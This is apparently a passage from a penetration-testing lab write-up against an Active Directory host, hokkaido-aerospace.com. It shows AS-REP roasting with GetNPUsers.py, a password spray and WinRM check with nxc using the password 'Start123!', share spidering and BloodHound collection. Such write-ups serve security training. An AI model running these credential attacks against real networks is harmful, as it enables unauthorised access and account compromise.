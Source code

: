 ![image.png](image%2019.png)

**AS-REP Roasting**

```bash
GetNPUsers.py hokkaido-aerospace.com/ -dc-ip $IP -no-pass -usersfile users
```

![image.png](image%2020.png)

Let’s analyze shares in detail I found `password-reset.txt` and `anonymousCheckFile.txt`before:

![image.png](image%2021.png)

Second file is empty.

Let’s perform password spray:

```bash
sudo nxc smb $IP -u users -p 'Start123!' --continue-on-success
```

![image.png](image%2022.png)

## Privileges as discovery

**Shell access check:**

```bash
sudo nxc winrm $IP -u discovery -p 'Start123!'
```

![image.png](image%2023.png)

**Users Description Fields**

![image.png](image%2024.png)

**Listing Shares**

![image.png](image%2025.png)

**Spidering Shares**

```bash
sudo nxc smb $IP -u discovery -p 'Start123!' -M spider_plus -o EXCLUDE_DIR=IPC$
```

**Nothing new.**

### Enumeration  - BloodHound

```bash
sudo python3 /home/kali/.local/share/pipx/venvs/netexec/bin/bloodhound-python -d hokkaido-aerospace.com -u discovery -p 'Start123!' -ns $IP -c all
```

